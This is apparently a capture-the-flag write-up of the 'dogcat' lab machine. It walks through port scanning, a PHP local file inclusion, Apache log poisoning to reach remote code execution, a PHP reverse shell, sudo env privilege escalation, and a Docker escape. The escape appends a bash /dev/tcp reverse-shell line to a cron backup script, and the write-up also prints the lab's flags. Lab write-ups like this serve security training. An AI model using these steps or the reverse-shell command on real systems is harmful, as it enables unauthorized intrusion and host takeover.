# DOGCAT


## NMAP

```
┌──(kali㉿kali)-[~/Desktop/dogcat]
└─$ sudo nmap -sS -p- 10.10.155.99
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-25 17:55 EDT
Nmap scan report for 10.10.155.99
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 46.52 seconds

┌──(kali㉿kali)-[~/Desktop/dogcat]
└─$ sudo nmap -sVC -p 22,80 10.10.155.99
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-25 17:57 EDT
Nmap scan report for 10.10.155.99
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: dogcat
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.38 seconds
```

## WebSite


Normal website that gives us an image of a cat or a dog.


### Gobuster

```
                                                                             
┌──(kali㉿kali)-[~/Desktop/dogcat]
└─$ gobuster dir  -u http://10.10.155.99 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt


===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.155.99
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cats                 (Status: 301) [Size: 311] [--> http://10.10.155.99/cats/]                                                                           
/dogs                 (Status: 301) [Size: 311] [--> http://10.10.155.99/dogs/]                                                                           
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```


### Vulneratbility

Exploring the website I played arround with the view parameter and there is a Local File Inclusion vulnerability. The dog or cat in view is a directory. We can maybe include and print other files in the OS




The backend is add a .php at the end of the string to only serve php files, This gives us that weird error output




Adding a Null byte worked but I still can't read system files




I may have to use a filter chain





Basically the goal is to generate a Base64 string at the beginning of the file that will be finally decoded providing the desired payload that will be interpreted by include.

## Source Code




```
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```


This line sets the extension ```$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';```

We can change this extension and get any file we want now





```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
No users

## Apache Logs

In another machine I used the nginx logs to create a payload in php. Maybe i can do the same here.


Get the acces log files

```
http://10.10.155.99/?ext=&view=php://filter/convert.base64-encode/resource=./dog/../../../../../var/log/apache2/access.log
```

Good News. It is logging the User Agent.



We then send a request with our user agent as a PHP Payload and it will be executed by the backend.
This can potentialy give us RCE.

I was being dumb, I don't actually need the base64-encode

We got RCE Baby




## Uploading a Reverse Shell

I don't know whether or not the machine has nc or python, but i can run php, so why not upload a php reverse shell and then traverse to that file and get a reverse connection

Using Pentest Monkey PHP Reverse Shell







### Upgrading to TTY Shell

```
$ SHELL=/bin/bash script -q /dev/null
www-data@b681b94db593:/var/www/html$ 
```

## It's a Docker Container

```
ls -la
total 80
drwxr-xr-x   1 root root 4096 Oct 25 21:44 .
drwxr-xr-x   1 root root 4096 Oct 25 21:44 ..
-rwxr-xr-x   1 root root    0 Oct 25 21:44 .dockerenv
drwxr-xr-x   1 root root 4096 Feb 26  2020 bin
drwxr-xr-x   2 root root 4096 Feb  1  2020 boot
drwxr-xr-x   5 root root  340 Oct 25 21:44 dev
drwxr-xr-x   1 root root 4096 Oct 25 21:44 etc
drwxr-xr-x   2 root root 4096 Feb  1  2020 home
drwxr-xr-x   1 root root 4096 Feb 26  2020 lib
drwxr-xr-x   2 root root 4096 Feb 24  2020 lib64
drwxr-xr-x   2 root root 4096 Feb 24  2020 media
drwxr-xr-x   2 root root 4096 Feb 24  2020 mnt
drwxr-xr-x   1 root root 4096 Oct 25 21:44 opt
dr-xr-xr-x 113 root root    0 Oct 25 21:44 proc
drwx------   1 root root 4096 Mar 10  2020 root
drwxr-xr-x   1 root root 4096 Feb 26  2020 run
drwxr-xr-x   1 root root 4096 Feb 26  2020 sbin
drwxr-xr-x   2 root root 4096 Feb 24  2020 srv
dr-xr-xr-x  13 root root    0 Oct 25 21:44 sys
drwxrwxrwt   1 root root 4096 Mar 10  2020 tmp
drwxr-xr-x   1 root root 4096 Feb 24  2020 usr
drwxr-xr-x   1 root root 4096 Feb 26  2020 var
```

We can see the .dockerenv file that indicates this is docker. This is probably why there are no users on the machine but there is an ssh service. This machine has no users because it is only a container. Maybe we can hop to the host machine from here.

## First let's get root on this machine

```
www-data@b681b94db593:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on b681b94db593:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on b681b94db593:
    (root) NOPASSWD: /usr/bin/env

```

```
www-data@b681b94db593:/$ sudo /usr/bin/env /bin/sh
sudo /usr/bin/env /bin/sh
# whoami
whoami
root
```

## Get to the host

```
root@e6293899f8a5:/# find -type f -name "*.sh" 
find -type f -name "*.sh" 
./opt/backups/backup.sh
./etc/init.d/hwclock.sh
find: './proc/86/map_files': Permission denied
find: './proc/87/map_files': Permission denied
find: './proc/91/map_files': Permission denied
find: './proc/92/map_files': Permission denied
find: './proc/93/map_files': Permission denied
find: './proc/94/map_files': Permission denied
find: './proc/95/map_files': Permission denied
find: './proc/96/map_files': Permission denied
find: './proc/97/map_files': Permission denied
find: './proc/104/map_files': Permission denied
./lib/init/vars.sh
./usr/local/lib/php/build/ltmain.sh
./usr/share/debconf/confmodule.sh
root@e6293899f8a5:/# 
```

```./opt/backups/backup.sh```

There is a backup file and a backup sh file

```
root@e6293899f8a5:/opt/backups# tar -xvf backup.tar -C /tmp
tar -xvf backup.tar -C /tmp

root@e6293899f8a5:/tmp/root/container# cat Dockerfile
cat Dockerfile
FROM php:apache-buster

# Setup document root
RUN mkdir -p /var/www/html

# Make the document root a volume
VOLUME /var/www/html

# Add application
WORKDIR /var/www/html
COPY --chown=www-data src/ /var/www/html/

RUN rm /var/log/apache2/*.log

# Set up escalation     
RUN chmod +s `which env`
RUN apt-get update && apt-get install sudo -y
RUN echo "www-data ALL = NOPASSWD: `which env`" >> /etc/sudoers

# Write flag
RUN echo "THM{D1ff3r3nt_3nv1ronments_874112}" > /root/flag3.txt
RUN chmod 400 /root/flag3.txt

RUN echo "THM{LF1_t0_RC3_aec3fb}" > /var/www/flag2_QMW7JvaY2LvK.txt

EXPOSE 80

# Configure a healthcheck to validate that everything is up&running
HEALTHCHECK --timeout=10s CMD curl --silent --fail http://127.0.0.1:80/
root@e6293899f8a5:/tmp/root/container# 

```

```

root@e6293899f8a5:/tmp/root/container# cat launch.sh
cat launch.sh
#!/bin/bash
docker run -d -p 80:80 -v /root/container/backup:/opt/backups --rm box
```

The backup is a of this container.


```
root@e6293899f8a5:/opt/backups# ls -la  
ls -la
total 2892
drwxr-xr-x 2 root root    4096 Apr  8  2020 .
drwxr-xr-x 1 root root    4096 Oct 26 12:23 ..
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 Oct 26 12:59 backup.tar
```

The time of the backup also changes. This might be a cron job on the host machine that is running this script.

Let's try changing the script to have a reverse shell insite it

```
root@e6293899f8a5:/opt/backups# echo "bash -i >& /dev/tcp/10.8.191.218/4242 0>&1" >> backup.sh
<-i >& /dev/tcp/10.8.191.218/4242 0>&1" >> backup.sh
root@e6293899f8a5:/opt/backups# cat backup.sh
cat backup.sh
#!/bin/bash
bash -i >& /dev/tcp/10.8.191.218/4242 0>&1
```


After a few minutes:

```                                                         
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.8.191.218] from (UNKNOWN) [10.10.85.34] 56456
bash: cannot set terminal process group (4087): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# whoami
whoami
root
root@dogcat:~# ls
```
